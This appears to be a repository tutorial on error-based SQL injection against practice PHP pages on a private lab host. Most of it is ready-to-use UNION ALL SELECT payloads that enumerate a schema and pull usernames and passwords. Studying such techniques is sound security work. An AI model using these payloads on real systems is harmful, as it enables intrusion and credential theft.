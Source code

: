 ### Error-based SQL Injection

Error-based SQL Injection is a technique used to gather information about the database structure and its content by causing the database server to generate error messages. These error messages can reveal valuable information about the underlying database schema and its data.

#### Types of Error-based SQL Injection Techniques

1. **Query Break**
   - Inject characters like `'`, `"`, or other special characters to break the original query and generate error messages.
   
   Example:
   ```sql
   ' 
   " 
   ```

2. **Query Joined**
   - Use comments and logical operators to manipulate the query and observe how the application responds.
   
   Example:
   ```sql
   --+ 
   # (%23) 
   or '1
   or 1='1
   AND '1
   AND 1='1
   ```

3. **Determine Number of Columns**
   - Use the `ORDER BY` clause to identify the number of columns in the query. Increase the column index until an error occurs to determine the total number of columns.
   
   Example:
   ```sql
   ?id=1' order by 1 --+
   ?id=1' order by 2 --+
   ?id=1' order by 3 --+
   ?id=1' order by 4 --+
   ?id=1' order by 5 --+
   ?id=1' order by 6 --+
   ?id=1' order by 7 --+
   ?id=1' order by 8 --+
   ?id=1' order by 9 --+
   ```

4. **Run Multiple SELECT Statements Using UNION ALL**
   - Use the `UNION ALL` operator to combine results from multiple SELECT statements. This can be used to extract unauthorized information.
   
   Example:
   ```sql
   ?id=-1' union all select 1,2,3,4,5 --+
   ?id=-1' union all select database(), current_user, 3, 4, 5 --+
   ?id=-1' union all select database(), version(), 3, 4, 5 --+
   ```

5. **Retrieve Database Names**
   - Extract the names of all databases using queries against the `information_schema` tables.
   
   Example:
   ```sql
   ?id=-1' union all select table_schema, 2, 3, 4, 5 from information_schema.tables GROUP BY table_schema --+
   ```

6. **Retrieve Table Names**
   - Extract table names from a specific database using `information_schema`.
   
   Example:
   ```sql
   ?id=-1' union all select table_name, 2, 3, 4, 5 from information_schema.tables where table_schema="employe_db" --+
   ```

7. **Retrieve Column Names**
   - Extract column names from a specific table within a database.
   
   Example:
   ```sql
   ?id=-1' union all select column_name, 2, 3, 4, 5 from information_schema.columns where table_schema="employe_db" AND table_name="users" --+
   ```

8. **Extract Data from Columns**
   - Retrieve sensitive data such as usernames and passwords from a table.
   
   Example:
   ```sql
   ?id=-1' union all select name, password, 3, 4, 5 from users --+
   ```

9. **Concatenate Data for Output**
   - Use `GROUP_CONCAT` to concatenate and display data in a single line.
   
   Example:
   ```sql
   ?id=-1' union all select group_concat(name), group_concat(password), 3, 4, 5 from users --+
   ```

## Example SQL Injection Queries

### Error-Based String SQL Injection

#### error-based-string-get.php

**Example URL:**
- `http://192.168.43.2/error-based-string-get.php`


**Original Query in the File:**
```sql
SELECT * FROM users WHERE id=('1')
```

**Injection Queries:**

```sql
-1') UNION ALL SELECT CURRENT_USER(), 2, 3, 4, 5 --+
```

```sql
-1') UNION ALL SELECT table_schema, 2, 3, 4, 5 FROM information_schema.tables GROUP BY table_schema --+
```

```sql
-1') UNION ALL SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables WHERE table_schema="employe_db" --+
```

```sql
-1') UNION ALL SELECT COLUMN_NAME, 2, 3, 4, 5 FROM information_schema.columns WHERE table_schema="employe_db" AND TABLE_NAME="users" --+
```

```sql
-1') UNION ALL SELECT name, password, 3, 4, 5 FROM employe_db.users --+
```

```sql
-1') UNION ALL SELECT GROUP_CONCAT(name), GROUP_CONCAT(password), 3, 4, 5 FROM employe_db.users --+
```

```sql
-1') UNION ALL SELECT GROUP_CONCAT(name), GROUP_CONCAT(password), 3, 4, 5 FROM employe_db.users LIMIT 0,1 --+
```

**Explanation:**
The `error-based-string-get.php` file is vulnerable to SQL Injection. The query `SELECT * FROM users WHERE id=('1')` is used with a filter that attempts to control input. However, attackers can bypass this filter by manipulating the input with the `UNION` operator. For example, they use payloads like `-1') UNION ALL SELECT CURRENT_USER(), 2, 3, 4, 5 --+` to combine results from multiple queries. This allows them to retrieve sensitive data such as the current user, database schema, table names, column names, and even user credentials from the `employe_db` database. By chaining these payloads, attackers can effectively extract detailed information despite the initial filter.

#### error-based-string-post.php

**Example URL:**
- `http://192.168.43.2/error-based-string-post.php`

**Original Query in the File:**
```sql
SELECT * FROM users WHERE id='1'
```

**Injection Queries:**

```sql
1' UNION ALL SELECT CURRENT_USER(), 2, 3, 4, 5 -- 
```

```sql
1' UNION ALL SELECT table_schema, 2, 3, 4, 5 FROM information_schema.tables GROUP BY table_schema --+
```

```sql
1' UNION ALL SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables WHERE table_schema="employe_db" --+
```

```sql
1' UNION ALL SELECT COLUMN_NAME, 2, 3, 4, 5 FROM information_schema.columns WHERE table_schema="employe_db" AND TABLE_NAME="users" --+
```

```sql
1' UNION ALL SELECT name, password, 3, 4, 5 FROM employe_db.users --+
```

```sql
1' UNION ALL SELECT GROUP_CONCAT(name), GROUP_CONCAT(password), 3, 4, 5 FROM employe_db.users --+
```

**Explanation:**
The `error-based-string-post.php` file is also vulnerable to SQL Injection. The query `SELECT * FROM users WHERE id='1'` is used with user-provided input, which can be manipulated by attackers. By injecting payloads such as `1' UNION ALL SELECT CURRENT_USER(), 2, 3, 4, 5 --`, attackers can execute additional SQL commands to combine query results. This approach allows them to bypass the filter and access sensitive information, including the current database user, schema details, table names, column names, and user passwords. The `GROUP_CONCAT` function in payloads like `1' UNION ALL SELECT GROUP_CONCAT(name), GROUP_CONCAT(password), 3, 4, 5 FROM employe_db.users --+` enables attackers to gather all usernames and passwords into a single result, facilitating data extraction from the `employe_db` database.

